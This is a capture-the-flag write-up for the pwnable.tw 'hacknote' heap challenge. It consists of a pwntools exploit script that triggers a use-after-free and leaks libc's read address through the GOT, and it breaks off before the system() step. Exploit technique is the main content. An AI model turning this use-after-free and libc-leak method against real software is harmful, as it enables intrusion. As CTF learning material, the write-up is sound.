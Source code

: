 ## Writeup

```py
from pwn import *

context(os='linux', arch='i386')

HOST = 'chall.pwnable.tw'
PORT = 10102

PRINT_NOTE_FN = 0x804862b
LIBC_READ_OFFSET = 0xd41c0
LIBC_SYSTEM_OFFSET = 0x3a940

elf = ELF('./hacknote')

class Note:
    def __init__(self, conn):
        self.send = conn.send
        self.sendline = conn.sendline
        self.recv = conn.recv
        self.recvuntil = conn.recvuntil
        self.sendafter = conn.sendafter

    def add_note(self, size, data):
        self.sendafter(':', '1')
        self.sendafter(':', str(size))
        self.sendafter(':', data)

    def delete_note(self, note_id):
        self.sendafter(':', '2')
        self.sendafter(':', str(note_id))

    def print_note(self, note_id):
        self.sendafter(':', '3')
        self.sendafter(':', str(note_id))

if len(sys.argv) > 1 and sys.argv[1] == '-r':
    conn = remote(HOST, PORT)
else:
    conn = process(['./hacknote'])

log.info('Pwning start')
note = Note(conn)

# create 2 notes
note.add_note(16, "AAAA")
note.add_note(16, "BBBB")

# delete 2 notes
# UAF
note.delete_note(0)
note.delete_note(1)

# leak libc read address
# print_note(8, read_got_addr)
note.add_note(8, p32(PRINT_NOTE_FN) + p32(elf.got[b'read']))

# leak libc
note.print_note(0)
ret = u32(note.recv(4))

# calc system address
```